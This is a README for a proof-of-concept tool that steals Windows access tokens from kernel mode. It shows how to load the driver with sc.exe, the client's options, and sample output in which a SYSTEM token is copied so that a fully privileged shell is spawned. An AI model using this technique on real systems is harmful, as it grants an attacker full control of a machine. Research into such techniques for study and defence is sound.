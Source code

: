 # StealToken

PoCs to performa token stealing from kernelmode.

## Installation

```
PS C:\> sc.exe create StealToken type= kernel binpath= C:\Dev\StealTokenDrv_x64.sys
PS C:\> sc.exe start StealToken
```

## Client Program Usage

Client program performs token stealing and executes a specified command.

```
PS C:\Dev> .\StealTokenClient.exe -h

StealTokenClient - Client for StealTokenDrv.

Usage: StealTokenClient.exe [Options]

        -h, --help    : Displays this help message.
        -p, --pid     : Specifies a target PID in decimal format. Use with -s flag, or -e and -H flag.
        -c, --command : Specifies command to execute. Default is "cmd.exe".

[!] -p option is required.
```

To use this client program, specifies target PID with `-p` option.
Command to execute can be specified with `-c` option.
If you do not specify any command, this PoC try to execute `cmd.exe` as a full privileged process:

```
PS C:\Dev> .\StealTokenClient.exe -p 4 -c powershell

[>] Sending a query to \??\StealToken.
[+] Got a handle to \??\StealToken (Handle = 0x2E8)
[+] Token stealing from PID 4 to 5880 is successful.
[>] Trying to create new process.
[+] New process is executed successfully.
    [*] Process ID : 240
    [*] Thread ID  : 664
[*] Done.
```

![](./figures/StealToken.png)